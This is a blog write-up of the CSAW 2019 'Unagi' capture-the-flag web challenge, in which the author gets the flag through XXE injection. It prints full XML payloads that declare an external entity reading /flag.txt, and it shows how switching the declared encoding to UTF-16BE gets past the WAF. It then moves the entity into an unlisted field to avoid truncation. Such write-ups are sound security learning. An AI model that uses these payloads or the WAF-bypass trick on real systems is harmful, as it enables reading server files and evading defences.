 ```yaml
---
title: "CSAW 2019: Unagi"
date: 2020-05-21T01:22:16-06:00
draft: false
comments: false
tags: ["writeups", "web"]
cover: "img/unagi.png"
---
```


Back in 2019 I really got into CTFs as a matter of honing my security skills. They were fun to do and enriched my knowledge of cybersecurity - so I got into it pretty quickly.

This was among the first of the challenges I did while under my team, Maple Bacon. At the time, I had plenty experience with SQL injections and XSS attacks, but not nearly enough experience with another common vulnerability: XXE attacks. CSAW 2019 sought to change that.

Let's Begin!
----

_Note: Unfortunately, I do not have screenshots as I partcipated in this CTF long before I realized I wanted to document my progress with them._

The challenge was called "Unagi". Several options were shown: ```home```, ```users```, ```about``` and ```upload```. ```about``` simply said ```flag is at /flag.txt, come get it``` 

It was a website with users Alice and Bob displayed, with their emails, group, and intro. There was an `upload` endpoint that allowed you to upload XML documents to create a new user. And they also had a sample xml file, how nice! 

```
name: Alice
email: alice@fakesite.com
group: CSAW2019
intro: Alice is cool

name: Bob
email: bob@fakesite.com
group: CSAW2019
intro: Bob is cool too
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

This challenge has taught me one thing: where there is XML, there is XXE injection. Researching for hours about XML vulnerabilities all point to XXE injections being **the** attack to do, so I crafted a pretty classic XXE payload and put it in my file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

But the WAF will reject the file. I sort of just... aimlessly searched the internet for a fix, dismayed to find a bunch of php workarounds, as this was during a time where I definitely wasn't confident with my skills in php, and so I sort of stagnated at this point...

...Until I got curious about the encoding declaration. Standardly, encodings are UTF-8 around the board, but encoding UTF-16 exists - and what would happen if I changed the XML encoding from UTF-8 to UTF-16? This led me down to researching about using [different encodings to bypass WAF filters](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/):

>An XML document can be encoded not only in UTF-8, but also in UTF-16 (two variants — BE and LE), in UTF-32 (four variants — BE, LE, 2143, 3412), and in EBCDIC...

>...Exotic encodings may also be used to bypass diligent WAFs as they are not always able to process all the encodings listed above. For instance, the libxml2 parser only supports one type of UTF-32 — UTF-32BE, specifically without BOM.

For this issue in particular, UTF-8 and UTF-16 differ in their ways of encoding a sequence of chars. UTF-8's character encodings are 1-4 bytes, while UTF-16's are 2-4. What this challenge's WAF does is look at the byte encoding of a character and match it with whatever blacklist it has. But naturally, UTF-8's character encodings are going to be vastly different from UTF-16's, since there is at least 1 byte of a difference. So when the WAF looks at UTF-16 encodings, it won't be able to detect the malicious characters that is differently encoded in 2 bytes, and assumes the file is clean.

```xml
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

UTF-16 encoding does bypass the WAF but when the flag.txt file is loaded...

```
name: Jam
email: jam@jelly.com
group: AAAAAAAAAAAAAAAAAAAA
```

It's cut off, probably cause the "group" field has a character limit. But interestingly enough, the xml sample file doesn't specify a field we saw before - ```intro```. Could we just put our xxe attack in there?

```xml
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>Fruit Preservatives</group>
        <intro>&xxe;</intro>
    </user>
</users>
```
It works!

```
name: Jam
email: jam@jelly.com
group: Fruit Preservatives
intro: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

----

Looking back at CSAW 2019 now, it's almost obvious that the attack vector here was an XXE. Of course, being young and somewhat new to the collective CTF scene I wouldn't have figured this out from the get-go. It feels nice to know that I have grown and evolved as a CTF hacker, and I will continue to do so. Each CTF I participate in teaches me something new, and I will continue to grow and evolve as I participate in mroe CTFs. Hopefully if anyone reads this and feels uncertain about how much they don't know, spin it around and see it as an oppurtunity of how much you can learn :) Anyway, this was a quick writeup I did based on my year-old notes on this challenge, so I apologize for the lack of screenshots and otherwise simple presentation of it. This coming weekend, I will be participating in a few different CTFs, so expect more writeups to come soon!

Jam

---
References

Cover Image: [Isabella Mendes](https://www.pexels.com/@isabella-mendes-107313) on Pexels